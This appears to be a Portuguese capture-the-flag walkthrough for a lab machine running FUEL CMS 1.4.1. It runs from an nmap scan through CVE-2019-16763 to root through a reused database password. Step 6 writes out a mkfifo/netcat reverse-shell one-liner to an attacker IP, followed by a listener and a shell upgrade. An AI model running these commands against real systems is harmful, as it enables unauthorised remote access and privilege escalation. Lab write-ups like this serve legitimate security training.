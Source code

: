 1. Adicionar o endereço IP ($ip) ao arquivo hosts:
   ```
   sudo echo "$ip" >> /etc/hosts
   ```

2. Realizar um scan Nmap no servidor "ignite.thm" para identificar serviços e softwares:
   ```
   nmap ignite.thm -sV
   PORT   STATE SERVICE  REASON  VERSION
   80/tcp open  http     syn-ack Apache httpd 2.4.18 ((Ubuntu))
   | http-robots.txt: 1 disallowed entry
   |_/fuel/
   |_http-server-header: Apache/2.4.18 (Ubuntu)
   |_http-title: Welcome to FUEL CMS
   | http-methods:
   |_  Supported Methods: GET HEAD POST OPTIONS
   ```

3. Verificação do conteúdo de robots.txt:
   ```
   Disallow: /fuel/
   ```

4. Acessar o diretório /fuel no servidor "ignite.thm" e encontrar um CMS com a versão 1.4.1 com uma CVE-2019-16763.

5. Baixar o exploit para a CVE-2019-16763 e obter uma shell como o usuário "www-data".

6. Usar FIFO para criar um arquivo em /tmp/ que permite a comunicação entre processos:
   ```
   rm /tmp/shell; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.44.97 44444 >/tmp/f
   ```

7. Em sua máquina atacante, executar o comando para ouvir a conexão reversa:
   ```
   nc -nlvp 44444
   ```

8. Verificar se o Python está presente no servidor:
   ```
   locate python3
   python3 -c 'import pty;pty.spawn("/bin/bash")'
   ```

9. Analisar os arquivos de configuração do Fuel CMS no servidor e encontrar o arquivo "database.php" com permissões de leitura e gravação para todos os usuários.

10. Encontrar a senha do banco de dados no arquivo "database.php":
    ```
    'password' => '???????',
    ```

11. Tentar fazer login como usuário "root" com a mesma senha encontrada.

12. Conseguir acesso como "root" e obter as flags:
    - User: ???????????????????????????????.flag
    - Root: ???????????????????????????????.flag

Essas etapas descrevem o processo de invasão e obtenção de acesso root no servidor "ignite.thm". Lembre-se de que essas atividades devem ser realizadas de maneira ética e em conformidade com as leis e regulamentos aplicáveis.
